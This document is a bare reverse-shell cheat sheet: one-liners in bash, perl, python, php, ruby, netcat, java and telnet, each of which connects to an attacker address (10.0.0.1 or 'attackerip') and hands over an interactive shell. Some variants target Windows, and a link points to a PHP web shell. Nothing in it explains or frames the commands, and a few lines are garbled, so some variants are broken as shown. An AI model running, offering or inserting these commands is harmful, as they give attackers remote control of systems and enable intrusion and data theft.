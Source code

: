 #bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

#bash alt
exec /bin/bash 0&0 2>&0

#bash alt 2
0<&196;exec 196<>/dev/tcp/attackerip/4444; sh <&196 >&196 2>&196

#bash alt 3
exec 5<>/dev/tcp/attackerip/4444
cat <&5 | while read line; do $line 2>&5 >&5; done  

# or:
while read line 0<&5; do $line 2>&5 >&5; done

#perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

#perl alt
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

#perl on windows
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

#python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

#full php shell page can be found here: http://pentestmonkey.net/tools/web-shells/php-reverse-shell
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

#ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

#ruby that doesn't depend on /bin/sh
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

#ruby on windows
ruby -rsocket -e 'c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

#netcat
nc -e /bin/sh 10.0.0.1 1234

#netcat alt
nc -c /bin/sh attackerip 4444

#netcat alt 2
/bin/sh | nc attackerip 4444

#netcat alt 3
rm -f /tmp/p; mknod /tmp/p p && nc attackerip 4444 0/tmp/p

#wrong version of netcat
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

#java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()

#telnet
rm -f /tmp/p; mknod /tmp/p p && telnet attackerip 4444 0/tmp/p

#telnet alt
telnet attackerip 4444 | /bin/bash | telnet attackerip 4445   # Remember to listen on your machine also on port 4445/tcp


